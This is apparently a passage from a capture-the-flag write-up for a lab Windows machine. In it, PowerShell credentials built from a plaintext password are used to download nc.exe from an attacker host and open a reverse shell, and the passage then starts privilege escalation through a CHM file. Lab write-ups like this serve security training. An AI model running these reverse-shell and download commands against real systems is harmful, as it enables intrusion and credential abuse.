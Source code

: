 ```powershell
$credential = new-object -typename System.Management.Automation.PSCredential -argumentlist "SNIPER\chris",$password;
PS C:\inetpub\wwwroot\user> $credential

UserName                         Password
--------                         --------
SNIPER\chris System.Security.SecureString
```
The command output is successful. We can get a shell as `chris` by uploading `netcat` in his home folder and executing it. Let's start a Netcat listener `rlwarp ncat -lvnp 1234`. Then let's execute it as `Chris`.

```powershell
$password = convertto-securestring -AsPlainText -Force -String "36mEAhz/B8xQ~2VM"
$credential = new-object -typename System.Management.Automation.PSCredential -argumentlist "SNIPER\chris",$password;
Invoke-Command -ComputerName LOCALHOST -ScriptBlock {wget http://10.10.14.40/nc.exe -o C:\Users\chris\nc.exe} -credential $credential;
Invoke-Command -ComputerName LOCALHOST -ScriptBlock {C:\Users\chris\nc.exe -e powershell 10.10.14.40 1234} -credential $credential;
```

This is Succesful and we receive a shell as `Chris`.
```
Microsoft Windows [Version 10.0.17763.678]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\Users\Chris\Documents>whoami
whoami
sniper\chris

C:\Users\Chris\Desktop>more user.txt
more user.txt
21f4d0f29fc4dd867500c1ad716cf56e
```
## Privilege Escalation
Navigating to `C:\Docs\` we can find a note with the following content.
```
c:\Docs>more note.txt

Hi Chris,
 Your php skillz suck. Contact yamitenshi so that he teaches you how to use it and after that fix the website as there are a lot of bugs on it. And I hope that you've prepared the documentation for our new app. Drop it here when you're done with it.

Regards,
Sniper CEO.
```
In `C:\User\chris\Downloads` we find `instructions.chm`. A `CHM` file is a compiled HTML file that is used for "HELP Document". Therefore, the administrator might be expecting the `CHM` file to be in placed in `C:\Docs\`.
